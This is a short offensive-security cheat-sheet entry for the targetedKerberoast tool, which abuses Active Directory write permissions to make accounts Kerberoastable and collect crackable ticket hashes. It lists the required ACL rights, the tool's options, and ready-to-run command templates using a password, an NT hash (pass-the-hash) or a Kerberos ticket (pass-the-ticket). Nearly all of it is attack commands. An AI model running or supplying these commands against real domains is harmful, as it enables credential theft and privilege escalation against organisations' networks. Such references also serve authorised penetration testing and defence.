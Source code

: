 # targetedKerberoast

% acl, GenericWrite
#plateform/linux #target/remote #cat/ATTACK/ACL-ABUSE

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
```

## attack 
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -p <password> 
```

## attack pth
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain> -u <user> -H <nt_hash> 
```

## attack ptt
https://github.com/ShutdownRepo/targetedKerberoast
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
export KRB5CCNAME=<ticket>
targetedKerberoast.py -v -d <domain> -k --no-pass 
```


